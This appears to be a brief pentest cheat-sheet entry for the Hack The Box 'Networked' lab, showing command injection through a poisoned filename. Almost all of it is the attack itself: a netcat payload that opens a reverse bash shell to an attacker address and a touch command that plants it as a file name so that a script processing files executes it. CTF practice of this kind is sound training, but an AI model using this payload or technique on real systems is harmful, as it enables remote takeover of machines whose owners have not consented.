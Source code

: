 ## Get code execution by poisoning the filename (HTB - Networked)
```bash
# Be carefull, this kind of attack does not like "/" inside the payload
;nc -c bash 10.10.14.10 9001;
# Create a file to execute malicious bash command 
touch -- ';nc -c bash 10.10.14.10 9001;'
```	
